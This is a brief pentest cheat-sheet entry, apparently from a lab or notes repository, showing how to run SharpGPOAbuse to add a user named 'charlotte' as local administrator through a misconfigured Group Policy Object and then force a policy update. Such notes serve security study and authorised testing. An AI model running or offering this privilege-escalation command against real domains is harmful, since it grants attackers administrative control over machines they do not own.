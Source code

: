 ## SharpGPOAuse
Adding Local Admin
```
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Vulnable GPO"
```

force a policy update
```
gpupdate /force
```